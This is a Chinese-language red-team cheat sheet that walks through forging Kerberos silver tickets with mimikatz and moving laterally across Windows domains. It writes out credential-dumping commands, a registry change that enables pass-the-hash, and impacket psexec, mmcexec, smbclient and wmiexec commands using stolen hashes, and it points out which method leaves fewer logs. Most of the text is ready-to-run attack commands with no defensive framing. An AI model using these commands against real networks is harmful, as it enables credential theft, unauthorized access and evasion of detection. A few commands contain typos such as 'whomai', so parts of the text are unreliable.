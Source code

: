 🚀 伪造白银票据(伪造TGS)  
伪造条件：域名、域SID、需要伪造的用户名、目标服务器的FQDN(Fully Qualified Domain Name) //全限定域名：同时带有主机名和域名的名称、可利用的服务、服务账号的NTML Hash  
注意事项：票据20分钟内有效，过期之后可以再次导入、银票是伪造的TGS，所以没有与域控制器通信、白银票据仅限于特定服务器上的任何服务、产生任何事件日志都在目标服务器上  
获取域名  
ipconfig /all  
获取域SID  
wmic useraccount get name,sid //获取域内所有用户sid  
whomai /user //获取当前用户sid  
获取服务账号的NTML Hash  
Mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit // 需要管理员权限  
清空票据 mimikatz中输入如下命令  
kerberos::purge  
生成票据  
mimikatz "kerberos::golden /user:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt" exit  
白银票据需要的参数:  
/target: 目标服务器的FQDN：(Fully Qualified Domain Name)全限定域名：同时带有主机名和域名的名称。（通过符号"."）  
/service: 运行在目标服务器上的kerberos服务，该服务主体名称类型如cifs，http，mssql等  
/rc4: 服务的NTLM散列（计算机帐户或用户帐户）  
查看当前会话中的票据  
Kerberos::tgt  
验证权限  
dir \\dc\\c\$

---

### Win-横向移动

🚀  
开启UAC后, 只有本地管理员组里的账户能pth。域Domain admin默认在本地管理员组  
reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\system /v LocalAccountTokenFilterPolicy /t REG\_DWORD /d 1 /f

🚀445端口SMB哈希传递  
使用impacket套件的psexec.exe工具：  
需要开放445端口, 此方法已被杀软列入黑名单  
需要远程系统开启admin\$共享（默认是开启的）  
在使用PsExec执行命令时，会在目标系统中创建一个psexec服务。命令执行后，psexec服务将被自动删除。但创建或删除服务时会产生大量的日志  
-accepteula：第一次运行PsExec会弹出确认框，使用该参数就不会弹出确认框  
-s：以system权限运行远程进程，获得一个system权限的交互式shell。如果不使用该参数，会获得一个administrator权限的shell。  
psexec.exe /accepteula /s \\127.0.0.1 -u cloud/administrator -p P@ssw0rd -s cmd

🚀使用impacket套件的mmcexec工具：  
mmcexec.exe -hashes e10adc3949ba59abbe56e057f20f883e cloud/administrator@127.0.0.1

🚀使用impacket套件的smbclient工具：  
smbclient.exe cloud/administrator:P@ssw0rd@127.0.0.1  
smbclient.exe -hashes e10adc3949ba59abbe56e057f20f883e cloud/administrator@127.0.0.1

🚀135端口WMI哈希传递  
使用impacket套件的wmiexec工具：  
在使用wmiexec进行横向移动时，Windows操作系统默认不会产生日志，此方法比PsExec隐蔽性要更好一些  
wmiexec.exe cloud/administrator:P@ssw0rd@127.0.0.1  
wmiexec.exe -hashes :e10adc3949ba59abbe56e057f20f883e cloud/administrator@127.0.0.1
